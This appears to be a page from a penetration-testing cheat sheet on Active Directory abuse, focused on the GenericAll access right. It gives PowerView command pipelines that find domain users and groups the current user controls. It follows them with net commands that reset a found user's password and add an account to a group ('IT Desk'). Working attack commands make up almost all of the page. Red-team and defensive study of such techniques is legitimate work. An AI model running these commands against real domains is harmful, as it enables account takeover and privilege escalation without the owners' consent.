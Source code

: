 # GenericAll

## <mark style="color:red;">GenericAll in Users</mark>

Find domain users that current user has `GenericAll` access right to:

```
PowerView3 > Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} ? {$_.ActiveDirectoryRights -like "*GenericAll*"}
```

![](<../../../../.gitbook/assets/image (270).png>)

The attacker can change password of discovered users:

```
Cmd > net user snovvcrash Passw0rd! /domain
```

## <mark style="color:red;">GenericAll on Groups</mark>

Find domain groups that current user has `GenericAll` access right to:

```
PowerView3 > Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} ? {$_.ActiveDirectoryRights -like "*GenericAll*"}
```

The attacker can add users to discovered groups:

```
Cmd > net group "IT Desk" snovvcrash /add /domain
```
